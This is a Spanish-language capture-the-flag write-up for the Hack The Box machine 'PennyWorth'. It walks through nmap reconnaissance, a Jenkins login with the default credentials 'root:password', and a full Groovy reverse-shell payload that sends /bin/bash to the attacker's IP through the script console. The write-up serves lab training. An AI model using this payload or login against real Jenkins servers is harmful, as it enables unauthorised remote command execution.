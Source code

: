 ```yaml
---
title: PennyWorth
layout: page
permalink: /HTB_PennyWorth
---
```


<h2 class="titulo-principal">PennyWorth</h2>
<div id="imgs" style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/pennyworth.png" alt="under" oncontextmenu="return false;">
</div>

Comenzamos encendiendo la máquina y obtenemos la dirección IP 10.129.245.27, le enviaremos un paquete con ping para saber si la máquina está encendida.

```bash
❯ ping -c 5 10.129.245.27
PING 10.129.245.27 (10.129.245.27) 56(84) bytes of data.
64 bytes from 10.129.245.27: icmp_seq=1 ttl=63 time=1204 ms
64 bytes from 10.129.245.27: icmp_seq=2 ttl=63 time=286 ms
64 bytes from 10.129.245.27: icmp_seq=3 ttl=63 time=120 ms
64 bytes from 10.129.245.27: icmp_seq=4 ttl=63 time=120 ms
64 bytes from 10.129.245.27: icmp_seq=5 ttl=63 time=1865 ms
--- 10.129.245.27 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 4040ms
rtt min/avg/max/mdev = 120.039/719.062/1864.712/700.349 ms, pipe 2
```

Vemos un TTL de 63, así que estamos frente a una máquina Linux.
<h2 class="titulo-principal">Enumeración</h2>

Comenzamos haciendo un escaneo rápido y sigiloso usando nmap para enumerar todo el rango de puertos en busca de servicios expuestos:

```bash
nmap -p --open -sS --min-rate 5000 -vvv -n -Pn 10.129.245.27 -oG allPorts
```
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/namp.png" alt="under" oncontextmenu="return false;">
</div>

Vemos un único puerto abierto `8080` que lo normal es que sea un servicio web. Para saber un poco más de información lanzamos un escaneo exhaustivo para identificar la versión y servicio con nmap para este puerto usando una serie de scripts básicos de reconocimiento:

```bash
nmap -sCV -p8080 10.129.245.27 -oN targeted
```
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/nmap2.png" alt="under" oncontextmenu="return false;">
</div>

No hay mucha información, pero siempre viene bien probar con la herramienta `whatweb`

```bash
whatweb 10.129.245.27:8080
```
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/whatweb.png" alt="under" oncontextmenu="return false;">
</div>

<h2 class="titulo-principal">Explotación</h2>

Whatweb nos revela información más interesante como `Jenkins 2.289.1` , `Jetty 9.4.39.v20210325` y una ruta 'login?from=2F'. Así que probamos acceder a la web:
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/web.png" alt="under" oncontextmenu="return false;">
</div>

Por defecto nos va a decir error ya que debemos proporcionar el puerto `8080` en la URL.
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/web2.png" alt="under" oncontextmenu="return false;">
</div>

Aun proporcionando el puerto donde esta el servicio web tenemos problemas, entonces pondremos la URL encontrada por whatweb.
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/login.png" alt="under" oncontextmenu="return false;">
</div>

Nos encontramos con un panel de Login, y al saber ya la version y servicio ejecutados en la máquina encontramos que tiene unas cuantas vulnerabilidades.
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/jetty.png" alt="under" oncontextmenu="return false;">
</div>

Dentro de estas se encuentra que las credenciales del panel de Login es 'root:password'.
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/intrusionweb.png" alt="under" oncontextmenu="return false;">
</div>

Una vez logueados encontramos `Groovy Script` y que podemos escribir nuestros propios códigos.
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/intrusionweb2.png" alt="under" oncontextmenu="return false;">
</div>

En el siguiente <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md">enlace</a> podemos encontrar algunos payloads:

**Groovy Payload**
```groovy
String host="10.10.16.84";
int port=443;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new
Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed())
{while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());whi
le(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try
{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/web3.png" alt="under" oncontextmenu="return false;">
</div>

Podemos ver que los payloads son ejecutados por el Administrator y los ejecuta el Servidor. Probamos a cargar nuestro payload:
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/revshell.png" alt="under" oncontextmenu="return false;">
</div>

Y nos ponemos en escucha con `nc` y recibimos una shell:
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/metidos.png" alt="under" oncontextmenu="return false;">
</div>

Buscamos la flag y habremos completado la máquina.
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/flag.png" alt="under" oncontextmenu="return false;">
</div>
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/pwn.png" alt="under" oncontextmenu="return false;">
</div>
---

Esta publicación ha sido creada como soporte en mi formación académica y crecimiento profesional.

© Juan David Garcia Acevedo (aka liandd)
